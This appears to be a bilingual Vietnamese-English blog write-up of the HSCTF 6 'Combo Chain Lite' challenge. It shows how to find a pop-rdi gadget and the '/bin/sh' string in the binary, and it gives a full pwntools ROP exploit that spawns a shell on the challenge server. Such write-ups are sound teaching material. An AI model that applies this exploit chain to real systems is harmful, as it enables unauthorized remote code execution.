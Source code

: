 ```yaml
---
layout: post
published: true
title: 'HSCTF 6: Combo Chain Lite'
categories:
  - CTF
  - HSCTF
---
```

## \[ENGLISH BELOW]


Xin chào.
Hôm nay mình muốn viết lại challenge này.

![Capture-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/Capture-combo-chain-lite.PNG)

[combo-chain-lite.c](https://ctf.hsctf.com/files/6fc8b6ed70bd7670c1d81f8939596712/combo-chain-lite.c?token=eyJ0ZWFtX2lkIjoxMjcyLCJ1c2VyX2lkIjoyMTgzLCJmaWxlX2lkIjo2Mn0.XQ-uYA.8F1dwaZpumZVCSVEYOXcOF93DdM)
[combo-chain-lite](https://ctf.hsctf.com/files/a12f5a0e0aea3721aa21189b949427e7/combo-chain-lite?token=eyJ0ZWFtX2lkIjoxMjcyLCJ1c2VyX2lkIjoyMTgzLCJmaWxlX2lkIjo2M30.XQ-uYA.ptvq-hFeiK8u7baL_Auf-k6kn_Y)
Chall sử dụng [ROP (Return Oriented Programming)](https://ctf101.org/binary-exploitation/return-oriented-programming/). Nên trước tiên ta tìm địa chỉ chứa ROP gadgets phù hợp.
Trong quy ước gọi ([calling conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)), các đối số được truyền vào các registers trong các chương trình 64-bit theo thứ tự như link tham khảo. Trong trường hợp của gọi `system`, thì chúng ta cần phải điều khiển thanh ghi RDI. Mình sẽ tìm các ROP gadgets thông qua tool như [rp++](https://github.com/0vercl0k/rp) hoặc [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) liên quan tới `pop rdi`. 

{: .box-note}
ROPgadget \--binary ./combo-chain-lite \| grep "pop rdi"

Khi đã có được địa chỉ của ROP, ta sẽ cần tìm địa chỉ của hàm `system` khi được nạp vào chương trình khi được thực thi. Tuy nhiên ở đây chương trình đã cung cấp sẵn cho ta.

![exec-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/exec-combo-chain-lite.PNG)

Tiếp theo ta cần tìm cách đưa chuỗi "/bin/sh" vào như đối số của `system`.
Nếu để ý thì trong chương trình đã có sẵn chuỗi đó, việc cần làm là tìm địa chỉ của nó trong chương trình mà thôi.

Có thể dùng gef hoặc gdb-peda.

-**Đối với gef:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gef➤  r
...
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/node/tmp/combo-chain-lite'(0x402000-0x403000), permission=r--
  0x402051 - 0x402058  →   "/bin/sh"
{% endhighlight %}

-**Đối với gdb-peda:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gdb-peda$ b*0x0000000000401209  #đặt breakpoint ở đoạn instruction sau khi in chuỗi
gdb-peda$ r
...
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7f67e80 --> 0x68732f6e69622f ('/bin/sh')
{% endhighlight %}

Đoạn code exploit của mình:

{% highlight python linenos %}
#Completed

from pwn import *

rm = remote("pwn.hsctf.com", 3131)

padding = "AAA%AAsAABAA$AAn" #16 ki tu (random pattern)
rop_addr = p64(0x0000000000401273)
bin_addr = p64(0x402051) #hoac 0x403051 /bin/sh string
sys_addr = p64(int(rm.recv().rsplit(': ')[1], 16)) 

payload = padding + rop_addr  + bin_addr + sys_addr
print payload
rm.recv()
rm.sendline(payload)
rm.interactive()
rm.close()
{% endhighlight %}

![combo-chain-lite-exploit.png]({{site.baseurl}}/img/ctf/HSCTF/2019/combo-chain-lite-exploit.png)

Done.


## ENGLISH

Hello everyone, here is the challenge:
![Capture-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/Capture-combo-chain-lite.PNG)

Challenge uses [ROP (Return Oriented Programming)](https://ctf101.org/binary-exploitation/return-oriented-programming/). So first we need to find right ROP gadgets addresses.
In ([calling conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)), arguments are passed in registers in 64-bit programs. In the case of running `system`, this means we will need to find a way to control the RDI register. We will find ROP gadgets through tools like [rp++](https://github.com/0vercl0k/rp) or [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) that have `pop rdi`. 

{: .box-note}
ROPgadget \--binary ./combo-chain-lite \| grep "pop rdi"

After having ROP address, we need to find the address of `system` function that imported when executing the program. But here, the program has provided for us.

![exec-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/exec-combo-chain-lite.PNG)

Next, try to figure out how to put the string "/bin/sh" as `system`'s argument.
If you look closer, in the program already has that string, we only need to figure out the address of it.

We can use gef or gdb-peda.

-**With gef:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gef➤  r
...
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/node/tmp/combo-chain-lite'(0x402000-0x403000), permission=r--
  0x402051 - 0x402058  →   "/bin/sh"
{% endhighlight %}

-**With gdb-peda:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gdb-peda$ b*0x0000000000401209  #đặt breakpoint ở đoạn instruction sau khi in chuỗi
gdb-peda$ r
...
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7f67e80 --> 0x68732f6e69622f ('/bin/sh')
{% endhighlight %}

My exploit code:

{% highlight python linenos %}
#Completed

from pwn import *

rm = remote("pwn.hsctf.com", 3131)

padding = "AAA%AAsAABAA$AAn" #16 ki tu (random pattern)
rop_addr = p64(0x0000000000401273)
bin_addr = p64(0x402051) #hoac 0x403051 /bin/sh string
sys_addr = p64(int(rm.recv().rsplit(': ')[1], 16)) 

payload = padding + rop_addr  + bin_addr + sys_addr
print payload
rm.recv()
rm.sendline(payload)
rm.interactive()
rm.close()
{% endhighlight %}

![combo-chain-lite-exploit.png]({{site.baseurl}}/img/ctf/HSCTF/2019/combo-chain-lite-exploit.png)

Done.
